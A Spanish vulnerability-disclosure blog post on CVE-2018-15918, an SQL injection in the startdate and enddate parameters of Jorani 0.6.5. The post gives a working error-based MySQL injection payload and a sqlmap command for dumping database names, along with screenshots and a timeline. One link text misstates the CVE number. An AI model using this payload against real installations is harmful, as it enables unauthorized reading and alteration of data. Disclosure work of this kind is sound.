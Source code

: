 +++
date = "2018-09-03"
title = "CVE-2018-15918 Jorani Leave Management System 0.6.5 - SQL Injection"
author = "Javier Olmedo"
toc = false
+++

Esta entrada tiene como finalidad hacer pública la vulnerabilidad [SQL Injection](https://www.owasp.org/index.php/SQL_Injection) descubierta en el software [Jorani Leave Management System 0.6.5](https://jorani.org/download.html), la vulnerabilidad ha sido asociada al [CVE-2018-159178](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-15918).

## Jorani CVE-2018-15918

### Jorani Leave Management System 0.6.5 – SQL Injection

[![/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_001.jpg](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_001.jpg)](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_001.jpg)

Jorani es un sistema de administración de licencias desarrollado en PHP / MySQL bajo una licencia AGPL v3, está diseñado para proporcionar solicitud de flujos de trabajo simples y tiempo extra para organizaciones pequeñas.

- 📅 Vulnerabilidad descubierta por [Javier Olmedo](https://twitter.com/JJavierOlmedo) el **02/08/2018**
- 💣 Publicada el **03/09/2018**
- 🐛 [CVE-2018-15918](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15918)
- 🔗 Link del software [Jorani Leave Management System](https://jorani.org/download.html)
- 🐞 Versión vulnerable = **0.6.5 y posiblemente anteriores**

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🟣 CRÍTICA 🟣

A través de las vulnerabilidades [SQL Injection](https://www.owasp.org/index.php/SQL_Injection), un usuario malintencionado podría **leer, modificar o borrar** información de la base de datos que utiliza la aplicación, lanzar comandos al sistema operativo o causar una [denegación de servicio](https://es.wikipedia.org/wiki/Ataque_de_denegaci%C3%B3n_de_servicio) con el objetivo de **obtener información confidencial, escalar privilegios o dejar inoperativa la aplicación.**

## Parámetros vulnerables

Los parámetros `startdate` y `enddate` son vulnerable a ataques **SQL Injection** a través de peticiones **POST** en el recurso `/leaves/validate`, estas peticiones permiten las condiciones `WHERE`, `HAVING`, `ORDER BY` y `GROUP BY`, lo que permite que sean **fácilmente explotables** y **recuperar grandes cantidades de información** de la base de datos con una sola consulta.

**💉 Payload**

```txt
id=1&type=compensate&startdate=2018-08-02&enddate=2018-08-03′) AND (SELECT 2138 FROM(SELECT COUNT(*),CONCAT(0x7178787071,(SELECT (ELT(2138=2138,1))),0x716b716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND (‘WfLI’=’WfLI&startdatetype=Morning&enddatetype=Afternoon&leave_id=
```

📷 **Captura de pantalla de SQLmap lanzando el comando**

```txt
sqlmap -r jorani-poc.req -p enddate --dbms=MySQL --dbs
```

[![/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_002.png](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_002.png)](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_002.png)

## Prueba de concepto (PoC)

**1.**  Si añadimos el caracter `'` en el parámetro `startdate` obtenemos un **error en la aplicación**

**1.1 Petición**

[![/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_003.png](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_003.png)](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_003.png)

**1.2 Respuesta**

[![/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_004.png](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_004.png)](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_004.png)

**2.** En cambio, al añadir dos `'`, obtenemos un **código 200 OK**

**2.1 Petición**

[![/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_005.png](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_005.png)](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_005.png)

**2.2 Respuesta**

[![/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_006.png](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_006.png)](/images/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection/cve-2018-15918-jorani-leave-management-system-0-6-5-sql-injection_006.png)

## Timeline

- **02/08/2018** Descubrimiento de la vulnerabilidad
- **02/08/2018** Creo issue en GitHub del proyecto
- **03/08/2018** El desarrollador invalida y cierra el issue 😥
- **27/08/2018** Solicito CVE
- **28/08/2018** Asignación de CVE-2018-15918 por MITRE
- **03/09/2018** Hago pública la vulnerabilidad

## Referencias

CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15918](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15918)

Un saludo a todos!! 👋